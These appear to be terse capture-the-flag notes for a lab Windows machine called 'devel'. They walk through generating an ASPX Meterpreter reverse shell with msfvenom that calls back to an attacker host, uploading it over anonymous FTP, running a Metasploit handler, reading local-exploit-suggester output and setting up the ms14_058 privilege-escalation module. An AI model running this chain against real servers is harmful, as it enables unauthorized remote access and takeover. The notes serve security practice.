 # devel

- ip: 10.10.10.5
- IIS 7.5 => Windows 7 or Server 2008 R2

## initial foothold

- see `aspnet_client` folder: IIS probably executing ASPX
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.20 LPORT=9090 -f aspx > shell.aspx`
- upload via anonymous FTP

## msfconsole

- `use exploit/multi/handler`
  - `set payload windows/meterpreter/reverse_tcp`
  - `set LHOST X.X.X.X`
  - `set LPORT ABCD`
  - `run` (start handler, wait for incoming connection)
- `use post/multi/recon/local_exploit_suggester`

```
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
bad [+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
works [+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
bad [+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

- `use exploit/windows/local/ms14_058_track_popup_menu`
  - `set LHOST, LPORT`
  - `set TARGET 0`
  - `set SESSION 1`
